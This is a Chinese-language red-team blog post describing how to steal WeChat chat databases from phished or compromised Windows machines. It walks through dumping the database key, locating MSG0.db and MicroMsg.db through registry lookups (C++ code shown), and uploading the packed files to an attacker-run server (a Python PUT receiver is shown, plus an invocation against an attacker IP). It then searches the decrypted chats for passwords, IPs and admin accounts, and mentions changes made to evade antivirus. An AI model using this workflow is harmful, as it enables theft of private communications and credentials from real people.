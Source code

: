 ```yaml
---
title: 微信聊天记录之自动化回传
date: 2022-10-08 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。



---
```


### 1.场景
 钓鱼攻击(通过钓鱼/微信控到的机器通常都是登录状态)
渗透到运维机器(有些运维机器会日常登录自己的微信)
实战中钓鱼时常在微信聊天记录中找到目标内网系统账号、机器账号密码，尽可能的不触发大量扫描告警下在内网中精准打到跳板机,文章仅供学习使用。

### 2.手动
[https://github.com/Ormicron/Sharp-dumpkey](https://github.com/Ormicron/Sharp-dumpkey)
1、获取微信数据库密钥，回传DBpass.bin
![1.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/1664285025071-6f462820-2c76-4568-aeac-5c3fc9dafb56.png)
2、下载目标聊天数据库文件
默认保存目录在 c:\User\xxxx\Documents\Wechat Files\ wxid_xxxxx\Msg\Multi\
超出240MB会自动生成MSG1.db，以此类推。

```
wxid_xxxxxxxx\Msg\Multi\MSG0.db > 聊天记录
wxid_xxxxxxxx\Msg\Multi\MSG1.db > 聊天记录
wxid_xxxxxxxx\Msg\Multi\MSG2.db > 聊天记录
wxid_xxxxxxxx\Msg\MicroMsg.db > Contact字段 > 好友列表
```
![2.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/1664285217728-dae87db3-aec1-4d7e-82c9-12e5fec7da03.png)
3.将上面三个文件回传到同目录，配合ChatViewToo（[https://github.com/Ormicron/chatViewTool](https://github.com/Ormicron/chatViewTool)）打开解密即可查看，在搜索处"administrator"/ ‘“root” "密码" “ip等”
![3.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/1664285667825-7dd2b04f-5eef-4aff-8fa3-d44368a07a2b.png)

### 3.自动化
看网上用的是根据注册表获取微信默认位置，其中需要微信id，通过基址和偏移可以得到，如果上线权限较低无法操作注册表或杀软hook就很尴尬了
2.这里用FindFirstFile遍历全盘指定文件后缀，如MSG0.db，MicroMsg.db文件压缩打包并通过curl后台运行上传到服务器。(curl.exe win10默认自带，可以上传一个或者引用C++第三方库）
项目地址：[https://github.com/c1y2m3/FileSearch](https://github.com/c1y2m3/FileSearch)
#### 服务端接收文件
参考链接：[https://floatingoctothorpe.uk/2017/receiving-files-over-http-with-python.html](https://floatingoctothorpe.uk/2017/receiving-files-over-http-with-python.html)
使用`curl`将打包压缩的文件上传Put到文件服务器
example:python http_server.py 8 /opt/rh
```
#!/usr/bin/env python

"""Extend Python's built in HTTP server to save files
"""
import os
import logging
import sys
try:
    import http.server as server
except ImportError:
    # Handle Python 2.x
    import SimpleHTTPServer as server

log_path = 'run_server_logs.log'
logging.basicConfig(level=logging.INFO,format='%(asctime)s %(filename)s[line:%(lineno)d] %(levelname)s %(message)s',datefmt='%a, %d %b %Y %H:%M:%S',filename=log_path)
class HTTPRequestHandler(server.SimpleHTTPRequestHandler):

    def do_GET(self):
        self.send_response(404)
        self.wfile.write("404 Not Found")

    """Extend SimpleHTTPRequestHandler to handle PUT requests"""
    def do_PUT(self):
        """Save a file following a HTTP PUT request"""
        filename = os.path.basename(self.path)

        # Don't overwrite files
        if os.path.exists(filename):
            self.send_response(409, 'Conflict')
            self.end_headers()
            reply_body = '"%s" already exists\n' % filename
            self.wfile.write(reply_body.encode('utf-8'))
            return

        file_length = int(self.headers['Content-Length'])
        output_file = 'tmp.txt'
        with open(filename, 'wb') as output_file:
            output_file.write(self.rfile.read(file_length))
        self.send_response(201, 'Created')
        self.end_headers()
        reply_body = 'Saved "%s"\n' % filename
        logging.info(self.headers)
        self.wfile.write(reply_body.encode('utf-8'))

if __name__ == '__main__':
    if sys.argv[2:]:
        os.chdir(sys.argv[2])
    server.test(HandlerClass=HTTPRequestHandler)
```
### 最终效果
FileSearchPlus.exe default xxx.xxx.xxx.xxx
![微信截图_20220930000738.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/1.png)

# 改进
![](https://c1y2m3.oss-cn-beijing.aliyuncs.com/2.png)

实战中发现全盘查找微信db在c2中非常拉跨，查找等待时间较长，且盘符越多越慢
1、直接读取注册表的键值，wxid关键字匹配拼接路径(碰到用户自设的路径，需要加个指定路径去)

![微信截图_20221014133740.png](https://c1y2m3.oss-cn-beijing.aliyuncs.com/3.png)



```
void getPath(char *dbpath)
{
	char cmd_command[256] = { 0 };
	char regname[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders";
	HKEY hKey;
	DWORD dwType = REG_BINARY;
	REGSAM mode = KEY_READ;
	DWORD length = 256;
	int ret = RegOpenKey(HKEY_CURRENT_USER, regname, &hKey);

	ret = RegQueryValueEx(hKey, "Personal", 0, &dwType, (LPBYTE)dbpath, &length);
	strcat(dbpath, "\\WeChat Files");
	//cout << dbpath << endl;

	if (ret == 0) {
		RegCloseKey(hKey);
	}
	else {
		printf("failed to open regedit.%d\n", ret);
	}
}
```
```
void getFileNames(string path, vector<string>& files)
{
	intptr_t hFile = 0;
	//文件信息
	struct _finddata_t fileinfo;
	string p;
	string::size_type idx;

	if ((hFile = _findfirst(p.assign(path).append("\\*").c_str(), &fileinfo)) != -1)
	{
		do
		{
			//如果是目录,匹配文件夹
			if ((fileinfo.attrib & _A_SUBDIR))
			{
				if (strstr(fileinfo.name, "wxid") != NULL)
					files.push_back(p.assign(path).append("\\").append(fileinfo.name));
			}

		} while (_findnext(hFile, &fileinfo) == 0);
		_findclose(hFile);
	}
}
```

2、传输改成socket协议，支持大文件上传，效率很快，需要启动个Server socket
![](https://c1y2m3.oss-cn-beijing.aliyuncs.com/4.png)

3、参考https://github.com/Ormicron/Sharp-dumpkey
远程拉取基址，考虑到免杀性改成了C++代码，
![](https://c1y2m3.oss-cn-beijing.aliyuncs.com/5.png)